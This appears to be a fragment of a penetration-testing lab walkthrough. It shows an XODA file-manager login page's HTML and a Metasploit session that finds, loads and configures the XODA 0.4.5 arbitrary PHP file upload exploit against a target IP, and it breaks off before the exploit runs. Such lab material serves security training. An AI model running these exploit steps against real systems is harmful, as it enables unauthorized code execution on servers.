 ```
                        function stab(id){var _10=new Array();for(i=0;i<_10.length;i++){document.getElementById(_10[i]).className="tab";}document.getElementById(id).className="stab";}var allfiles=new Array('');
                        //]]>
                </script>
                <script language="JavaScript" type="text/javascript" src="/js/xoda.js"></script>
                <script language="JavaScript" type="text/javascript" src="/js/sorttable.js"></script>
                <link rel="stylesheet" href="/style.css" type="text/css" />
</head>

<body onload="document.lform.username.focus();">
        <div id="top">
                <a href="/" title="XODA"><span style="color: #56a;">XO</span><span style="color: #fa5;">D</span><span style="color: #56a;">A</span></a>
                        </div>
        <form method="post" action="/?log_in" name="lform" id="login">
                <p>Username:&nbsp;<input type="text" id="un" name="username" /></p>
                <p>Password:&nbsp;<input type="password" name="password" /></p>
                <p><input type="submit" name="submit" value="login" /></p>
        </form>
</body>
</html>
```

```
msf5 > search XODA

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/webapp/xoda_file_upload  2012-08-21       excellent  Yes    XODA 0.4.5 Arbitrary PHP File Upload Vulnerability


msf5 > use exploit/unix/webapp/xoda_file_upload
msf5 exploit(unix/webapp/xoda_file_upload) > show options

Module options (exploit/unix/webapp/xoda_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /xoda/           yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5


msf5 exploit(unix/webapp/xoda_file_upload) > set RHOSTS 192.67.240.3
RHOSTS => 192.67.240.3
msf5 exploit(unix/webapp/xoda_file_upload) > set TARGETURI /
```
